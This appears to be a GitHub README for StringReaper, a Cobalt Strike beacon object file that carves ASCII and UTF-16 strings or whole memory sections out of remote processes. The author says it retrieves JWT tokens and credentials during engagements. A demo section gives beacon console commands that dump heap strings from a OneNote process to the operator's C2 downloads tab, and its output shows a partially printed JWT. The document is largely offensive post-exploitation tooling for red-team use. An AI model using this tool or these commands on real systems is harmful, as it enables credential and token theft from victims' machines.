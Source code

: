 # StringReaper 
_Reaping treasures from strings in remote process memory_
![](./images/stringreaper.png)

CobaltStrike BOF designed to carve strings out of remote process memory. This tool allows operators to carve ASCII and UTF-16 strings from targeted processes, making it effective for retrieving JWT tokens, credentials, and other sensitive data directly from memory. Over the past 3 years i've had great success in using this tool on engagements. Saves time when oping from a C2 where you don't want to have to wait on a full process dump or deal with download size issues.

Extracted strings are saved as ASCII in an output file. It uses [@anthemtotheego](https://x.com/anthemtotheego)'s code to download the output files to the CS `Downloads Tab`. If the target data isn't strings, the alternative `download` mode enables full memory section extraction.

Supports filtering memory regions by type (`private`, `image`, `mapped`, or `all`) and access permissions (`r`, `rw`, `rwx`, or `all`).

Also has some additional features such as:
- `list` mode
  - List the target memory sections details. Useful to make sure you don't accidently commit to downloading a massive amount of memory over the wire.
  - I use this to check before I use the `strings` or `download` modes.
- `peb` mode
  - Displays some of the remote processes PEB. Shows CLI strings, etc.
- `env` mode
  - Display all the environment strings of the remote process in the CS console stdout.

# Demo
_Below is a demo of getting JWT access tokens from the OneNote process `onenoteim.exe`_
- First find the process id for OneNote:
```
[02/07 16:44:28] beacon> ps
[02/07 16:44:29] [*] Process List
 PID   PPID  Name                                   Arch  Session     User
 ---   ----  ----                                   ----  -------     ----
 11576 740               onenoteim.exe              x64   1           SECURE\user
 ...
```
- Add the BOF to CS using the Script Console and `StringReaper.cna` aggressor script
- Use the BOF to get all the strings from read-write heap memory `private rw`:
```
[02/07 16:45:08] beacon> StringReaper 11576 strings private rw
[02/07 16:45:09] [*] started download of memstrings.bin (54784 bytes)
[02/07 16:45:09] [*] download of memstrings.bin is complete
```
- Go to downloads tab and sync the `memdump.bin` or `memstrings.bin` file
![](./images/csdownloadstab.png)

- Then view it locally with `cat`/`vi`/`more`/`less`/`grep`/etc
```bash
0xBoku@kamehameha:~/Desktop/out$ cat memstrings.bin | grep ey
ope xmlns:s="http://schemas.xmlsoap.org/soap/envelope/"><s:Header>
<Header xmlns="http://schemas.microsoft.com/office/roamingservice">
<ClientInfo xmlns="http://schemas.datacontract.org/2004/07/Microsoft.Office.Web.Roaming.SoapObjects"<Client>RS_ImmersiveCache</Client><ClientVersion>16.0.14326.22094</ClientVersion><Protocol>1.0</Protocol></ClientInfo></Header></s:Header><s:Body><a:WriteSettingsRequest
xmlns="http://schemas.datacontract.org/2004/07/Microsoft.Office.Web.Roaming.SoapObjects"xmlns:a="http://schemas.microsoft.com/office/roamingservice">
<a:Identity>eyJ0eXAiOiJKV1QiLCJub25jZSI6IjNtYlJlU2FETWpBM2ZrY1B6cnBVclRBZzM1ZG1qYnFzbHVIbkZMdzdkTkUiLCJhbGciOiJSUzI1NiIsIng1dCI6IllUY2VPNUlKeXlxUjZqekRTNWlBYnBlNDJKdyIsImtpZCI6IllUY2VPNUlKeXlxUjZqekRTNWlBYnBlNDJKdyJ9.eyJhdWQiOiJo..
```

